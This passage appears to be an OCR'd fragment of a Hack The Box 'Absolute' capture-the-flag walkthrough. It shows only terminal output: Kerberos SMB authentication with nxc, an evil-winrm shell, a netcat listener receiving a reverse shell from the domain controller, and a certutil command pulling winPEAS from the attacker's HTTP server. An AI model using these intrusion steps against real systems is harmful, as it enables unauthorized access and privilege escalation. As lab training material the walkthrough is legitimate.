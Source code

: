 

```
❯ nxc smb 10.10.11.181 -k --use-kcache
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\winrm_user from ccache 
```



```bash
❯ evil-winrm -i dc.absolute.htb -r absolute.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_user\Documents> whoami
absolute\winrm_user
```



```
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.181] 51372
Microsoft Windows [Version 10.0.17763.3406]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\ProgramData>whoami
whoami
absolute\winrm_user
```



```
❯ ls -l winPEASx64.exe
.rw-r--r-- kali kali 9.4 MB Mon Feb 10 05:03:21 2025  winPEASx64.exe
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```



```
C:\ProgramData>certutil.exe -f -urlcache -split http://10.10.16.7/winPEASx64.exe winPEASx64.exe
certutil.exe -f -urlcache -split http://10.10.16.7/winPEASx64.exe winPEASx64.exe
****  Online  ****
  000000  ...
  962e00


CertUtil: -URLCache command completed successfully.
```
